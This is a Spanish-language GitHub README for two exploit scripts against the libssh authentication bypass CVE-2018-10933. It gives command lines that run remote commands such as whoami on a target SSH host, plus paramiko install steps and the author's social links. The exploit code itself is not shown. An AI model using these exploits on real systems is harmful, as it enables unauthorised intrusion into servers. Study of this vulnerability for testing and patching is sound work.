 # libssh

Ataque: RCE Ejecucion de comandos remoto

Servicio: libssh 

CVE: CVE-2018-10933 

(Ambos exploits cumplen la misma funcion - ya va en gusto usar el que desee, la visualizacion es diferente asi que recomiendo prueben ambos)

# Redes

Twitch: https://www.twitch.tv/4nonimo501

Telegram: https://t.me/Pen7esting

https://t.me/Owasp_Top_10

https://t.me/Active_Directory

https://t.me/ultimostiemp0s

https://t.me/r4ndonn

# Exploit 1

![exploit-libssh](https://user-images.githubusercontent.com/67207446/235363870-a5953fcf-072e-4c78-92fe-734cd9442c96.png)

python3 script_name.py 192.168.1.10 22 ls

python3 script_name.py 192.168.1.10 22 "hostname -I"

# Exploit 2

![image](https://user-images.githubusercontent.com/67207446/235362690-e590b25f-2a75-48f8-afa9-caf0bf4818d3.png)

## Ejecucion

python3 exploit.py --host 172.16.20.x -p 22 "whoami"

## Instalacion y actualizacion de paramiko

Instalacion:

sudo apt-get update
sudo apt-get install python-paramiko

Actualizacion:

pip install --upgrade paramiko
